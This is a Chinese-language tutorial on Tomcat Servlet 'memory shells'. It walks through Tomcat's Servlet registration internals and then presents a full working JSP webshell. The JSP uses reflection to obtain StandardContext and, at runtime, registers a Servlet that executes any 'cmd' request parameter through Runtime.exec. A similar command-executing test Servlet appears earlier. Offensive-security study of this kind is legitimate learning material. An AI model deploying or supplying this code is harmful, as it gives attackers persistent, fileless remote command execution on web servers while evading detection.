# Tomcat内存马之Servlet

## 前言

关于 Servlet 的知识，同样在前面[Servlet](../../01-JavaWeb基础/0-Servlet/Servlet.md)章节已经学习过，这里不再赘述，直接进入分析环节。

## Servlet流程分析

先编写一个 Servlet 实现类
```java
package com.servlet.study;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

/**
 * Created by dotast on 2022/11/1 11:21
 */
@WebServlet(urlPatterns = "/*")
public class ServletTest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        try{
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            ByteArrayOutputStream bao = new ByteArrayOutputStream();
            byte[] bytes = new byte[1024];
            int a = -1;
            while((a = inputStream.read(bytes))!=-1){
                bao.write(bytes, 0, a);
            }
            resp.getWriter().write(new String(bao.toByteArray()));

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

访问带上参数执行命令


在前面的学习中，我们知道 Servlet 是在`StandardContext#startInternal()`方法里的`loadOnStartup()`进行调用，在这里打上断点


跟进`findChildren()`方法


此时的`children`属性已经存储了我们的 Servlet 实现类`com.servlet.study.ServletTest`，接下来需要寻找在哪里开始添加的以及如何添加。

返回`StandardContext#startInternal()`方法从前面开始看，其中`fireLifecycleEvent()`方法的注释是有关于生命周期的，我们将断点打在该方法上进行调试


跟进该方法


继续跟进`listener.lifecycleEvent()`方法


继续跟进`configureStart()`方法


调用了`webConfig()`方法，继续跟进


通过`createWebXml()`方法开始创建 WebXml 对象，此时`servletMappings`为空，继续往下走


这里跟进`processClasses()`方法


这里调用`context.getResources().listResources()`方法获取`/WEB-INF/classes`路径下的内容


其中在`/WEB-INF/classes/com/`路径下获取到`ServletTest.class`文件并添加到了`resource`


此时，`ServletTest`也被添加到了`webXml`对象中的`servletMappings`中


接着回到`ContextConfig#webConfig()`方法中，跟进`configureContext()`方法


在`configureContext()`方法中调到和`servlet`相关的代码


可以看到，通过`StandardContext.createWrapper()`方法创建了一个`wrapper`即`StandardWrapper`对象，同时为`wrapper`设置`LoadOnStartup`属性值


继续往下，分别为`wrapper`设置了`name`和`servletClass`属性的值，继续往下走


跟进`addChild()`方法


通过`context.addChild()`方法将`wrapper`添加到`ContainerBase`的`children`属性中，代码继续往下走


这里跟进`addServletMappingDecoded()`方法


最后将`ServletTest`类的路径映射添加到`wrapper`对象中。

弄清楚添加`ServletTest`的流程后，我们回到一开始的`loadOnStartup()`方法并跟进代码


这里判断`wrapper`对象的`LoadOnStartup`属性值，默认为 -1，


只有`LoadOnStartup`属性值大于 0 的时候，被`list.add()`方法添加到`list`中，最后才会被`wrapper.load()`方法加载到内存中进行调用。

这里需要了解一下`LoadOnStartup`在 Servlet 配置的含义：

> 标记容器是否在启动的时候就加载这个 servlet。 当值为 0 或者大于 0 时，表示容器在应用启动时就加载这个 servlet； 当是一个负数时或者没有指定时，则指示容器在该 servlet 被选择时才加载。 正数的值越小，启动该 servlet 的优先级越高。对应 Tomcat Servlet 的懒加载机制。

因此`LoadOnStartup`属性设置与不设置并不影响`Servlet`的加载，当然为了追求优先级一般都会设置一下，追求更完美不是。

整个`Servlet`的流程分析到这里算是结束了，可以总结完成动态注册`Servlet`的流程如下：

1. 编写恶意的`Servlet`类；
2. 获取`StandardContext`对象；
3. 创建`StandardWrapper`对象；
4. 设置`StandardWrapper`属性值`LoadOnStartup`属性值大于 0；
5. 设置`StandardWrapper`属性值`ServletName`；
6. 设置`ServletName`属性值`ServletClass`；
7. 将`StandardWrapper`对象添加到`ContainerBase`类的`children`属性中；
8. 通过`StandardContext.addServletMappingDecoded()`方法添加`Servlet`类的路径映射

开始编写 Servlet 型内存马
```jsp
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="org.apache.catalina.core.StandardWrapper" %><%--
  Created by dotast on 2022/11/7 17:02
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    class ServletTest extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            try{
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes, 0, a);
                }
                resp.getWriter().write(new String(bao.toByteArray()));

            }catch (Exception e){
                e.printStackTrace();
            }
        }
    }
%>

<%
    // 获取StandardContext
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request req = (Request) field.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    // 创建StandardWrapper对象，设置属性
    ServletTest servletTest = new ServletTest();
    StandardWrapper wrapper = new StandardWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(servletTest.getClass().getSimpleName());
    wrapper.setServlet(servletTest);
    wrapper.setServletClass(servletTest.getClass().getName());
    // 将StandardWrapper对象添加到ContainerBase类的children属性中
    standardContext.addChild(wrapper);
    // 通过StandardContext.addServletMappingDecoded()方法添加Servlet类的路径映射
    standardContext.addServletMappingDecoded("/servlet",servletTest.getClass().getSimpleName());

%>
```

访问上传的内存马文件路径使其执行代码，注册内存马


接着访问设置的路由`/servlet`成功执行命令

